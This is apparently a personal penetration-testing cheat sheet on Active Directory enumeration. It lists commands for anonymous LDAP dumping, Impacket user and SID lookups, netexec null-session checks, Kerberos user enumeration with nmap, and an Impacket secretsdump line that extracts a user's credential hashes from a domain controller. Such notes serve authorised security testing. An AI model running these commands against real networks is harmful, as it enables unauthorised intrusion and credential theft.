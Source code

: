 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#enumeration #service-enumeration
# Note: Be cautious when brute forcing Active Directory, as it can trigger the Account Lockout Policy and disable user accounts.


## Anonymous Credential LDAP Dumping: 

- ldapsearch -LLL -x -H ldap://"domain fqdn" -b ‘’ -s base ‘(objectclass=*)’

Impacket GetADUsers.py (Must have valid credentials)

- GetADUsers.py -all domain\User -dc-ip 172.21.0.0

Impacket lookupsid.py:

- /usr/share/doc/python3-impacket/examples/lookupsid.py username:password@172.21.0.0

Impacket Secretdump:

python3 secretdump.py 'breakme.local/Administrator@172.21.0.0' -just-dc-user anakin

Windapsearch:

https://github.com/ropnop/windapsearch 

- python3 windapsearch.py -d host.domain -u domain\\ldapbind -p PASSWORD -U

## Netexec:

- netexec ldap "ip-address" -u "" -p "" -d "domain"

- netexec ldap "ip address" -u "Guest" -p "" -d "domain"

## Enumerating for users through kerberos

- sudo nmap --script=krb5-enum-users --script-args="krb5-enum-users.realm='megacorpone.com',users.txt" 172.21.0.0

## References: 

- PayloadAllTheThings:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#most-common-paths-to-ad-compromise

- Attacking Active Directory: 0 to 0.9:
https://zer1t0.gitlab.io/posts/attacking_ad/


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
